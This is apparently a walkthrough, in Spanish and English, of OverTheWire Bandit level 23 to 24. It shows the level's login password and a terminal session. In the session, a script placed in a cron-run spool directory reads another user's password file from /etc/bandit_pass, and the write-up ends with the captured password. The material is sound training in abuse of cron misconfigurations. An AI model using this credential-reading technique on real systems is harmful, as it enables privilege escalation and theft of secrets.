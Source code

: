 ## Objetivo

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de Acceso al Nivel

```
username: bandit23
psw: 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga
```

## Solución 1
```bash
C:\Users\pac61>ssh bandit23@bandit.labs.overthewire.org -p 2220
                         _                     _ _ _
                        | |__   __ _ _ __   __| (_) |_
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_
                        |_.__/ \__,_|_| |_|\__,_|_|\__|


                      This is an OverTheWire game server.
            More information on http://www.overthewire.org/wargames

bandit23@bandit.labs.overthewire.org's password:

bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ mktemp -d
/tmp/tmp.v7tSltdBT5
bandit23@bandit:~$ chmod 777 /tmp/tmp.v7tSltdBT5
bandit23@bandit:~$ cd /tmp/tmp.v7tSltdBT5
bandit23@bandit:/tmp/tmp.v7tSltdBT5$ nano script.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/tmp.v7tSltdBT5$ ls -la
total 10816
drwxrwxrwx    2 bandit23 bandit23     4096 Sep  4 16:44 .
drwxrwx-wt 4043 root     root     11063296 Sep  4 16:44 ..
-rw-rw-r--    1 bandit23 bandit23       73 Sep  4 16:44 script.sh
bandit23@bandit:/tmp/tmp.v7tSltdBT5$ chmod 777 script.sh
bandit23@bandit:/tmp/tmp.v7tSltdBT5$ ls -l
total 4
-rwxrwxrwx 1 bandit23 bandit23 73 Sep  4 16:44 script.sh
bandit23@bandit:/tmp/tmp.v7tSltdBT5$ cat script.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/tmp.v7tSltdBT5/password
bandit23@bandit:/tmp/tmp.v7tSltdBT5$ touch password
bandit23@bandit:/tmp/tmp.v7tSltdBT5$ chmod 777 password
bandit23@bandit:/tmp/tmp.v7tSltdBT5$ ls -la
total 10816
drwxrwxrwx    2 bandit23 bandit23     4096 Sep  4 16:45 .
drwxrwx-wt 4044 root     root     11063296 Sep  4 16:45 ..
-rwxrwxrwx    1 bandit23 bandit23        0 Sep  4 16:45 password
-rwxrwxrwx    1 bandit23 bandit23       73 Sep  4 16:44 script.sh
bandit23@bandit:/tmp/tmp.v7tSltdBT5$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/tmp.v7tSltdBT5$ cat password
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
bandit23@bandit:/tmp/tmp.v7tSltdBT5$
```

# Información obtenida
```
pwd level 24: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```
## Notas Adicionales
- mktemp -d - crea una carpeta temporal dentro de /tmp y le asigna un nombre aleatorio
- de preferencia crear el script con un nombre único
# Commands you may need to solve this level
chmod, cron, crontab, crontab(5) (use “man 5 crontab” to access this)
## Referencias
- [¿Qué es cron?](https://opensource.com/article/21/7/cron-linux#:~:text=SA%20Seth%20Kenlon-,The%20cron%20system%20is%20a%20method%20to%20automatically%20run%20commands,user%20to%20automate%20their%20computer.)